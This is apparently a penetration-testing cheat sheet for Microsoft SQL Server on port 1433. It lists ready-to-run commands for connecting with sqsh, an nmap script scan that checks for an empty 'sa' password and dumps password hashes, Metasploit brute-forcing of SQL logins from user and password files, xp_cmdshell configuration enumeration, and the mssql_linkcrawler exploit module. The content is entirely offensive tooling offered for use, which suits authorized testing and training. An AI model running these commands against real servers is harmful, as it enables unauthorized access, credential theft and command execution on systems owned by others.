# msssql

% mssql, Microsoft SQL Server, 1433

## mssql - connect
```
sqsh -S <ip> -U <user>
```

## mssql - enum
```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <ip>
```

## mssql - enum sql login
```
msfconsole -x "use admin/mssql/mssql_enum_sql_logins; set RHOSTS <ip>; set USER_FILE <user_file>; set PASS_FILE <pass_file>; run"
```

## mssql - enum configuration setting (xp-cmdshell)
```
msfconsole -x "use auxiliary/admin/mssql/mssql_enum; set RHOST <ip>; set password <pass>; run"
```

## mssql link crawler
```
msfconsole -x "use exploit/windows/mssql/mssql_linkcrawler"
```
